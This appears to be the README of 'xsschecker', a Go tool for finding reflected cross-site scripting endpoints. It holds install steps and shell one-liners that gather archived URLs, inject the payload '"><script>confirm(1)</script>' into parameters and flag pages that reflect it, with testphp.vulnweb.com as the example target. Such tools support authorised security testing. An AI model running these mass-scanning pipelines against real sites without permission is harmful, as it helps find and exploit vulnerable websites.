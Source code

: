 ```
 _  _  ____  ____   ___  _  _  ____  ___  __ _  ____  ____ 
( \/ )/ ___)/ ___) / __)/ )( \(  __)/ __)(  / )(  __)(  _ \
 )  ( \___ \\___ \( (__ ) __ ( ) _)( (__  )  (  ) _)  )   /
(_/\_)(____/(____/ \___)\_)(_/(____)\___)(__\_)(____)(__\_)
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat live-subs.txt | hakrawler -scope >> hakrawler-urls.txt
cat waybackurls-urls.txt gau-urls.txt hakrawler-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner Command1
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command2
```
echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)

